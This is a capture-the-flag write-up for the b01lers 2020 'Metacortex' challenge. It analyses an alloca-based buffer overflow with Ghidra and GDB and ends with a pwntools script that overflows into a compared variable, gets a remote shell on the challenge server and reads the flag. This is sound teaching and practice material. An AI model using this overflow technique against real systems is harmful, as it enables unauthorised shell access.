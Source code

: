 # b01lers bootcamp CTF 2020

## Metacortex

> 100
>
> This company is one of the top software companies in the world, because every single employee knows that they are part of a whole. Thus, if an employee has a problem, the company has a problem.
> 
> `nc chal.ctf.b01lers.com 1014`
> 
> [metacortex](metacortex)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _alloca_


## Summary

Classic buffer overflow from one variable to another to pass a check, however `alloca` adds a small twist.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Nice!  All mitigations in place.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  long lVar1;
  int iVar2;
  undefined *puVar3;
  undefined *puVar4;
  long in_FS_OFFSET;
  undefined auStack56 [8];
  long *local_30;
  ulong local_28;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puVar3 = auStack56;
  while (puVar3 != auStack56) {
    *(undefined8 *)(puVar3 + -8) = *(undefined8 *)(puVar3 + -8);
    puVar3 = puVar3 + -0x1000;
  }
  *(undefined8 *)(puVar3 + -8) = *(undefined8 *)(puVar3 + -8);
  local_30 = (long *)((ulong)(puVar3 + -1) & 0xfffffffffffffff0);
  puVar4 = puVar3 + -0x10;
  while (puVar4 != puVar3 + -0x10) {
    *(undefined8 *)(puVar4 + -8) = *(undefined8 *)(puVar4 + -8);
    puVar4 = puVar4 + -0x1000;
  }
  *(undefined8 *)(puVar4 + -8) = *(undefined8 *)(puVar4 + -8);
  local_28 = (ulong)(puVar4 + -0x41) & 0xfffffffffffffff0;
  *(long *)((ulong)(puVar3 + -1) & 0xfffffffffffffff0) = 0x1011e9;
  *(undefined8 *)(puVar4 + -0x58) = 0x101365;
  puts("Work for the respectable software company, Neo.",puVar4[-0x58]);
  *(undefined8 *)(puVar4 + -0x58) = 0x10137b;
  read(0,local_28,0x80,puVar4[-0x58]);
  lVar1 = *local_30;
  *(undefined8 *)(puVar4 + -0x58) = 0x101395;
  iVar2 = atoi(local_28,puVar4[-0x58]);
  if (lVar1 >> 0x20 == (long)iVar2) {
    *(undefined8 *)(puVar4 + -0x58) = 0x1013a8;
    system("/bin/sh",puVar4[-0x58]);
  }
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  *(undefined8 *)(puVar4 + -0x58) = 0x1013c1;
  __stack_chk_fail();
}
```

To get a shell we need to pass this check: `if (lVar1 >> 0x20 == (long)iVar2) {`.

Following along the decompilation was not very helpful, however the disassembly...

```
00101258 48 f7 f6        DIV        RSI
0010125b 48 6b c0 10     IMUL       RAX,RAX,0x10
0010125f 48 89 c2        MOV        RDX,RAX
00101262 48 81 e2        AND        RDX,-0x1000
         00 f0 ff ff
```

This pattern is from `alloca`.  Think `malloc`, but in stack.

Also note that `local_28` is a pointer (see above), below `local_28` is set from `alloca`:

```c
  local_28 = (ulong)(puVar4 + -0x41) & 0xfffffffffffffff0;
  *(long *)((ulong)(puVar3 + -1) & 0xfffffffffffffff0) = 0x1011e9;
  *(undefined8 *)(puVar4 + -0x58) = 0x101365;
  puts("Work for the respectable software company, Neo.",puVar4[-0x58]);
  *(undefined8 *)(puVar4 + -0x58) = 0x10137b;
  read(0,local_28,0x80,puVar4[-0x58]);
```

At this point instead of trying to figure out the math statically, I opted to use GDB; set a breakpoint just before the read and after the read, and then looked at the stack:

```
gef➤  b *main+397
Breakpoint 1 at 0x1376
gef➤  b *main+402
Breakpoint 2 at 0x137b
gef➤  gef config context.nb_lines_stack 32
gef➤  r
``` 

Stack after `read`:

```
0x00007fffffffe2c0│+0x0000: "AAAAAAAA\n"	 ← $rsp, $rsi
0x00007fffffffe2c8│+0x0008: 0x000000000000000a
0x00007fffffffe2d0│+0x0010: 0x00007ffff7fae4a0  →  0x0000000000000000
0x00007fffffffe2d8│+0x0018: 0x00007ffff7e526bd  →  <_IO_file_setbuf+13> test rax, rax
0x00007fffffffe2e0│+0x0020: 0x00007ffff7fad5c0  →  0x00000000fbad2087
0x00007fffffffe2e8│+0x0028: 0x00007ffff7e48f65  →  <setvbuf+261> xor r8d, r8d
0x00007fffffffe2f0│+0x0030: 0x00005555555553d0  →  <__libc_csu_init+0> endbr64
0x00007fffffffe2f8│+0x0038: 0x00007fffffffe350  →  0x0000000000000000
0x00007fffffffe300│+0x0040: 0x0000555555555100  →  <_start+0> endbr64
0x00007fffffffe308│+0x0048: 0x00007fffffffe440  →  0x0000000000000001
0x00007fffffffe310│+0x0050: 0x00005555555551e9  →  <main+0> endbr64 	 ← $rbx
0x00007fffffffe318│+0x0058: 0x0000555555555241  →  <main+88> mov eax, 0x10
0x00007fffffffe320│+0x0060: 0x00007ffff7fb1fc8  →  0x0000000000000000
0x00007fffffffe328│+0x0068: 0x00007fffffffe310  →  0x00005555555551e9  →  <main+0> endbr64
0x00007fffffffe330│+0x0070: 0x00007fffffffe2c0  →  "AAAAAAAA\n"
0x00007fffffffe338│+0x0078: 0x80214a39ea503000
0x00007fffffffe340│+0x0080: 0x00007fffffffe440  →  0x0000000000000001
0x00007fffffffe348│+0x0088: 0x00005555555553d0  →  <__libc_csu_init+0> endbr64
0x00007fffffffe350│+0x0090: 0x0000000000000000	 ← $rbp
0x00007fffffffe358│+0x0098: 0x00007ffff7de80b3  →  <__libc_start_main+243> mov edi, eax
```

`local_28` (`+0x70`) is pointing `0x90` above `$rbp`.  

> `local_28` is `0x28` above the return address (thanks Ghidra), making it `0x20` above `$rbp`, since `$rbp` is at `+0x90`, subtract `0x20` to find `local_28` in stack (`+0x70`).  Notice is value is pointing to `0x00007fffffffe2c0` (`+0x00`).

The compare is with `local_30` (see the decompile where `lVar1` is set to `*local_30`).  `local_30` is `0x30+8` from `$rbp` (`local_30` in Ghidra is `0x30` from the return address and `$rbp` is just above that).  Since `0x90 - 0x30 + 8 = 104`, if we write `104` bytes we'll overwrite `local_30` and control the compare.

The `read` liberally allows `0x80` (128) bytes, so we're good here.  A payload of a `0` + 103 nulls should get us a shell.

The `0` is for the `atoi`.  `atoi` will stop at the first null.  The nulls in `local_30` give us a matching zero.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./metacortex')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1014)

payload = b'0' + 103 * b'\0'

p.sendafter('Work for the respectable software company, Neo.\n',payload)
p.interactive()
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/metacortex/metacortex'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.ctf.b01lers.com on port 1014: Done
[*] Switching to interactive mode
$ id
uid=1000(metacortex) gid=1000(metacortex) groups=1000(metacortex)
$ ls -l
total 36
-r-xr-x--- 1 root metacortex    66 Oct  2 15:31 Makefile
-r--r----- 1 root metacortex    28 Oct  2 15:31 flag.txt
-r-xr-x--- 1 root metacortex 17040 Oct  3 04:07 metacortex
-r-xr-x--- 1 root metacortex   396 Oct  2 15:31 metacortex.c
-r-xr-x--- 1 root metacortex    49 Oct  2 15:31 wrapper.sh
$ cat flag.txt
flag{Ne0_y0uAre_d0ing_well}
```
